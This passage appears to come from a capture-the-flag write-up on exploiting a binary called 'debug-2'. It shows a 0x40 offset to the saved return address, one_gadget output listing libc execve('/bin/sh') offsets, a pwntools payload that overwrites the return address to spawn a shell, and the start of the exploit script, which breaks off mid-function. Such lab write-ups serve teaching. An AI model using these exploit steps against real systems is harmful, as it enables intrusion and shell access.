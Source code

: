 From this, we found that the offset to the saved RIP is 0x40.

Since we can jump to anywhere in libc, for the final payload we have two main options. We can construct our ROP chain using gadgets from libc, or we can use another tool called `one_gadget` that outputs offsets relative to the base of libc along with their conditions. If these conditions are met when we jump to a specific address in libc, it will spawn a shell for us.

By writing this command:
```bash
$ one_gadget libc.so.6
```

We get the following output:
```bash
0x4497f execve("/bin/sh", rsp+0x30, environ)
constraints:
  address rsp+0x40 is writable
  rax == NULL || {rax, "-c", r12, NULL} is a valid argv

0x449d3 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv

0xe5306 execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL || {[rsp+0x60], [rsp+0x68], [rsp+0x70], [rsp+0x78], ...} is a valid argv
```

`Quick tip`: As icemonster, a friend of mine, once said, you will lose less time by simply trying to jump to those addresses rather than checking if each condition is met. If none of them work initially, then you can try to see if the remaining conditions can be met before jumping there.

**Last touch**

With our last offset from one_gadget, we got the shell we planned, which left us with the following payload:
```python
finalPayload = b"K"*0x40
finalPayload += p64(libc.address + 0xe5306) # this overwrites the return of read so no mangle is needed
r.sendlineafter(b" characters", finalPayload)
```


## Exploit Code

```python
#!/usr/bin/env python3

from pwn import *

e = ELF("debug-2_patched")
libc = ELF("libc.so.6")
ld = ELF("ld-2.28.so")

context.binary = e

def conn(cond):
    if cond == 1:
        r = process([e.path])
    elif cond == 2:
        r = gdb.debug([e.path], gdbscript="""
            b *menu
            # b *main
            b *menu+212
            b *modify+41
            c
            """)
```